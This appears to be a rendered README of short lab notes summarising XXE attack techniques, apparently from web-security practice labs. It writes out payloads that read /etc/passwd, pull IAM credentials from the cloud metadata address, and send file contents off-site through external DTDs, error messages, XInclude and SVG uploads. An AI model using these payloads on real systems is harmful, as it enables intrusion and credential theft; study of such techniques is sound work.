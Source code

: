Encounter Cliff Notes

- External entity → file read
  - Stock check XML parsed entities. Declared `<!ENTITY xxe SYSTEM "file:///etc/passwd">` and referenced `&xxe;` inside request to read file.

- XXE → SSRF to cloud metadata
  - Pointed entity to `http://169.254.169.254/latest/meta-data/iam/security-credentials/admin` to fetch IAM creds.

- Blind XXE with OOB
  - Referenced collaborator URL in entity to confirm via DNS/HTTP callbacks.

- Entities disabled → parameter entities
  - Switched to `<!ENTITY % xxe SYSTEM "http://<collab>" > %xxe;` so expansion occurs at DTD level.

- Blind XXE exfil via external DTD
  - Hosted DTD that defines `%file` and `%exfil`. Local XML pulled DTD with `%dtd;` then expanded `%exfil;` to send contents off-site.

- Error-based exfil
  - Crafted DTD to embed file contents into a failing URL (`file:///doesnltexist<file>`) so error message included data.

- XInclude file read
  - Injected XInclude element in parsed content to include `file:///etc/passwd` as text.

- SVG upload XXE
  - Uploaded SVG with internal DTD and `<text>&xxe;</text>` to inline local file contents on render.


